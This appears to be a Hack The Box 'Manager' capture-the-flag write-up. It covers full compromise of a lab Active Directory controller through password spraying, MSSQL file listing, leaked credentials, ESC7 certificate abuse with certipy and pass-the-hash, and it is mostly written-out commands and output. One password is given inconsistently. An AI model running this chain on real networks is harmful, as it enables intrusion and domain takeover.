




# HTB Manager Writeup



This machine was a fun Active Directory-based box. Both the initial access and privilege escalation paths were fairly common, but the privesc stood out to me because I had not run into ESC7 before during assessments. If you like my content, it would help a lot if you used my referral link to buy Hack The Box or Academy subscriptions, which you can find on my about page.

## Initial Access

## Recon

To start recon, I ran a full Nmap scan against the target.

```bash
sudo nmap -sS -A -p- -o nmap 10.10.11.236
```

The scan showed a domain controller with a web server and an MSSQL service exposed:

```text
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0
9389/tcp  open  mc-nmf        .NET Message Framing
```

The web service did not reveal anything useful, so I moved on to enumeration through the domain controller.

## User Enumeration

I first tried anonymous SMB enumeration to pull a list of users from Active Directory.

```bash
netexec smb manager.htb -u anonymous -p "" --rid-brute 10000
```



That gave me a full set of domain users. With that list in hand, I tested whether any usernames were also being used as passwords.

```bash
netexec smb manager.htb -u user.txt -p user.txt --no-bruteforce --continue-on-success
```



That worked for the `Operator` account, and the password was simply `operator`. One important detail here is that username-as-password attempts should be tried with both lowercase and capitalized variants, since case can matter.

## MSSQL Access

With working credentials, I checked which services accepted them. The MSSQL service was accessible, so I logged in with Impacket.

```bash
impacket-mssqlclient manager.htb/operator:operator@manager.htb -windows-auth
```

I did not have `sa` privileges, so I could not directly execute shell commands. However, I could use `xp_dirtree`, which lets a user list files from the underlying system.

```sql
xp_dirtree c:\InetPub\wwwroot\
```

That revealed a backup file in the webroot. Since it was directly accessible through the web server, I downloaded it with curl.

```bash
curl http://manager.htb/website-backup-27-07-23-old.zip -o website-backup-27-07-23-old.zip
```

After extracting the archive, I found a file named `.old-conf.xml` that contained credentials for `raven`.



With those credentials, I logged in through Evil-WinRM.

```bash
evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

## Privilege Escalation

### Certificate Abuse

The box name made me suspect certificate abuse, so I checked for vulnerable ADCS permissions. Running a certificate discovery scan showed that `raven` had `ManageCA` rights, which made the system vulnerable to ESC7.

```bash
certipy find -u raven@manager.htb -p 'R4v3nBe5tD3veloP5r!123' -dc-ip 10.10.11.236 -vulnerable
```

The output confirmed the dangerous permissions:

```text
ManageCa : MANAGER.HTB\Raven
[!] Vulnerabilities
ESC7 : 'MANAGER.HTB\\Raven' has dangerous permissions
```

There are two ways to abuse this, but one requires a reboot, so I used the route that works without downtime. The idea is to make `raven` an officer, enable the vulnerable `SubCA` template, request a certificate for `administrator`, and then issue that request manually.

First, I added `raven` as an officer.

```bash
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236
```

Next, I enabled the `SubCA` template.

```bash
certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca 'manager-DC01-CA' -enable-template 'SubCA'
```

Then I submitted a request for a certificate on behalf of the administrator account.

```bash
certipy req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb
```

That request was denied, but it produced a request ID that I could use later:

```text
16
```

I then issued the request manually.

```bash
certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca 'manager-DC01-CA' -issue-request 16
```

After that, I retrieved the certificate.

```bash
certipy req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca 'manager-DC01-CA' -retrieve 16
```

I initially had trouble authenticating with the certificate because my local clock was out of sync with the target. Fixing the time offset with NTP solved the issue.

```bash
sudo ntpdate -u manager.htb
```

Once the time was synced, I authenticated again with the certificate and obtained the NTLM hash for `Administrator`.

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
```

Finally, I used pass-the-hash with Evil-WinRM to log in as administrator.

```bash
evil-winrm -i 10.10.11.236 -u Administrator -H 'ae5064c2f62317332c88629e025924ef'
```

## Attack Path

- **Scan the domain controller** — identify DNS, LDAP, SMB, MSSQL, and WinRM.
- **Enumerate users** — use anonymous SMB RID brute-forcing.
- **Test password reuse** — discover the `Operator` account password.
- **Access MSSQL** — log in with the recovered credentials.
- **List webroot contents** — use `xp_dirtree` to find a backup file.
- **Download the backup** — retrieve the ZIP from the web server.
- **Recover credentials** — extract `.old-conf.xml` and obtain `raven`’s password.
- **Log in as raven** — connect with Evil-WinRM.
- **Check ADCS** — confirm ESC7 through `ManageCA` permissions.
- **Abuse certificate services** — add an officer, enable `SubCA`, and issue a request for `administrator`.
- **Fix time skew** — sync the clock with NTP before authenticating.
- **Authenticate with the cert** — recover the Administrator NTLM hash.
- **Escalate fully** — use pass-the-hash to obtain administrator access.
